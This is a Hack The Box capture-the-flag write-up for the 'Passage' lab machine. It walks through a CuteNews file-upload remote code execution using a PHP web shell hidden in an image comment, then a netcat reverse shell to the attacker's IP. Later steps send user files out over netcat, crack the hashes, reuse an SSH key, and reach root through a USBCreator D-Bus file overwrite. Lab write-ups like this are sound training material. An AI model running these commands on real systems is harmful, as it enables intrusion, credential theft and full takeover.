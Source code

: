 # Hack the Box - Passage


<div style="text-align:center">Write-up of Passage - Difficulty : Medium </div>

<!--more-->

>"None shall pass." - "I have no quarrel with you, good Sir Knight,
>but I must cross this bridge." - "Then you shall die."
>
>Monty Python and the Holy Grail

## 1. Overview

Passage is a Linux box hosting a blog/news website.  
The version of CuteNews installed allows for a file upload to RCE.  
Re-use of account credentials allows for lateral movement in the system.  
The root account is able to be compromised due to an unpatched version of USBCreator.  

## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 80 are open.
The http title on 80 is Passage News.

``` bash 
 nmap -sC -sV 10.129.108.237
```

![nmap](nmap.png)


### 2.2 Website
#### 2.2.1 Passage News

First thing we need to do is check out the website on port 80.  We can do that by simply browsing to it in Firefox. The site appears to be some type of message board. All the posts are filler text except for the "Implemented Fail2Ban" post which just states that fail2ban has been installed.  If we run gobuster against this site our IP address will get banned for roughly five minutes.  At the bottom of the page is a reference to CuteNews and a link to their website.  

![home](news.png)  

After poking around for a little while and not getting anywhere it's time to look at the documentation for Cute News.  The documentation mentioned a dashboard at **/CuteNews**.  

When we go to that site we're able to register for an account and login.  After some more enumeration there doesn't appear to be much info to grab.  We can see that the version of Cute News running is **2.1.2**.  

After some googling we wind up with [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447).  


## 3. Foothold

The CVE we found allows us to upload an image file with php code commented into the image and have the server execute it.  This vulnerability can be used for us to gain a foothold.

We can use any image file and add a comment with exiftool that allows us to run commands by putting the command in a GET request.  

``` bash
exiftool -comment='<?php echo system($_GET['cmd']); ?>'
```  
We change the extension to **.php** and upload it as an avatar to the user account that we created earlier.  

With this uploaded we're able to navigate to our file and run some commands, such as **id** to see who we're running commands as and **ls /bin** to see what's installed on the server.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=id
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=ls+/bin
```  
<br>

![id](idphp.png)  
![ls](lsbin.png)  

With these commands we can see that we're running as **www-data** and that **nc** and **nc.traditional** are installed on the server.  
Knowing that, we can simply use netcat to call back to a listener we set up on our box.  

We set up our listener with **nc -lvnp 1234** and use the following url encoded command in our browser to connect to it.  

```
http://10.129.108.237/CuteNews/uploads/avatar_test_passage.php?cmd=nc%2010.10.14.24%201234%20-e%20%2Fbin%2Fbash
```
![data](wwwdata.png)  

 
## 4. Privilege Escalation
### 4.1 First user  

As usual when a website is running we want to check out **/var/www/html** to see if anything is left there for us to find.  In **/var/www/html/CuteNews/cdata/users** we find bunch of files that have base64 encrypted strings in them. To easily move these to our machine we ran **cat \* > hash.txt** and then moved the file over to our box with netcat.  
``` bash
on attack box
nc -lvnp 2345 > hash.txt

on victim box
nc -w 3 10.10.14.24 2345 < hash.txt
```  
![nc](nctransfer.png)  

Now we just remove extra data from the file and decode the base64 with **cat hash.txt|base64 -d > hash2.txt**.  Once that's complete we can run hashcat against the new hashes we found to see if anything is useful.  
```
hashcat -m 1400 -a 0 hash2.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
![hash](hashcat.png)  

And since we found a couple passwords let's run **getent passwd** to find our users.  We try the passwords for our users **nadav** and **paul**.  A simple **su** to paul and we have our first user and the user flag in the home directory.  
  
![paul](supaul.png)  

### 4.2 Second User

Since we all know that users like to re-use things it's always a good practice to attempt to use what you already have to access other user accounts.  Neither of the passwords seem to work for **nadav** so let's try using **paul's** SSH key to get in.  We copied his private key over with **nc** using the same command as our previous transfer.  

We attempt to SSH in with the key as nadav and we get right in.  
![ssh](nadavssh.png)  

### 4.3 Root

Running **groups** as nadav reveals that he's a member of quite a few things.  First thing's first, however, so let's go check out his home directory.  A simple **ls -a** and we find a hidden **.viminfo** file with some useful information in it.  

![vim](viminfo.png)  

Nadav has been making some changes to something called **dbus-1/.../USBCreator.conf**.  If we do some more googling we wind up at [USCreator Privilege Escalation](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) which should allow use to overwrite arbitrary files on the system without password prompt so long as we are in the sudo group.  Sounds like a plan.  
Instead of copying our key over the victim host we'll just use nadav's since we already have the private key on our attack box.  
```bash
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
```
![root](privescroot.png)  

Simple as that we have root access to the box.  


## Conclusion

1. Ensure your software is up to date.  Both attack vectors could be eliminated by installing required patches or updating to the newest version of the effected software.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>

